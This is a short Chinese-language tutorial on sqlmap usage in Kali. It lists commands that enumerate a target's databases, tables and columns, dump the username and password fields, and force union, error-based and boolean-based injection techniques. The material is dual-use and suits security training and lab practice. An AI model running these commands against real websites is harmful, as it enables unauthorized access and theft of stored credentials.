 

### kali版本sqlmap的标准用法：

```
sqlmap -u [目标url] --dbs
#获取目标网站的库名
#发现security库

sqlmap -u [目标url] -D security --tables
#获取库里的表
#发现users表的列

sqlmap -u [目标url] -D security -T users --columns
#发现id username password

#找到id,username,password的内容
sqlmap -u [目标url] -D security -T users -C username,password --dump
```



**完整版命令**：

```css
sqlmap -u [目标url] --dbs --batch --threads 10 --technique U
#使用sqlmap的10线程，batch忽略错误，使用union select注入目标网站
```





**无法发现报错位，但是数据库出错会爆出来**

### 报错注入：

(error based)

```
sqlmap -u [目标url] --current-db --batch --threads 10 --technique E
# 使用报错注入
```





**无法发现报错位，数据库被破坏也无法爆出来，但是界面上只会出现有和没有东西两种情况**

### 布尔型注入：

(booled based)

```
sqlmap -u [目标url] --current-db --batch --threads 10 --technique B
```





**无法发现报错位，数据库被破坏也无法爆出来，界面也没有出现或者消失东西的现象**
